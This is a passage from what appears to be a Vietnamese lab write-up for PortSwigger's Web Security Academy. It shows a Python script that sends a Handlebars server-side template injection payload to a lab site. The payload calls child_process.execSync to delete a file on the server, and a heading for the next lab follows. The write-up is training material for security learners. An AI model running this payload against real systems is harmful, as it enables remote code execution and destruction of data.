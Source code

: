 mình đã viết lại mã khai thác

```python=
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a87001504abadb78000763700eb003a.web-security-academy.net'

session = requests.Session()

payload = """{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('rm morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}"""

payload = quote(payload)

response = session.get(
    url + '/?message=' + payload,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/B1J5xsXq6.png)

## 5. Lab: Server-side template injection with information disclosure via user-supplied objects

link: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects

